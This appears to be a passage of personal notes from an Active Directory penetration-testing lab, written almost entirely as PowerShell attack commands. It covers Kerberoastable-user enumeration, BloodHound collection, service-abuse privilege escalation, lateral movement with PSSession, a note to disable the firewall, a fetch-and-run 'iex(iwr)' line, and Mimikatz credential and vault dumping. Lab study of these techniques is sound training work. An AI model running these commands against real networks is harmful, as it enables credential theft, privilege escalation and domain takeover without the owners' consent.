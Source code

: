 ```powershell
#Kerberoastable users
Get-NetUser -SPN 

# Bloodhound
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All,LoggedOn

# SQL
Import-Module .\PowerUpSQL.psd1
Get-SQLInstanceDomain
```

### 3. Domain Admin Priv Esc
**NOTE : ONCE A LOCAL ADMINISTRATOR RUN PS as ADMINISTRATOR**
```powershell
# Powerups
Invoke-Allchecks

# Abusing services
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student21'

# Run mimikatz
Invoke-Mimikatz
```

### 4. Domain Admin Priv Esc
```powershell
# Local admin user
Find-LocalAdminAccess -Verbose
Invoke-UserHunter -CheckAccess -Verbose

# Enter session
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$sess
Enter-PSSession -Session $sess

# language mode
$ExecutionContext.SessionState.LanguageMode

# applocker 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Disable FireWall !!!

# Mimikatz
# Modify to make it work without dot sourcing
wget or curl or iex(iwr)
.\Invoke-Mimikatz.ps1
```

### 5. Domain Admin Persistence
```powershell
Invoke-Mimikatz

# note the rc4
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
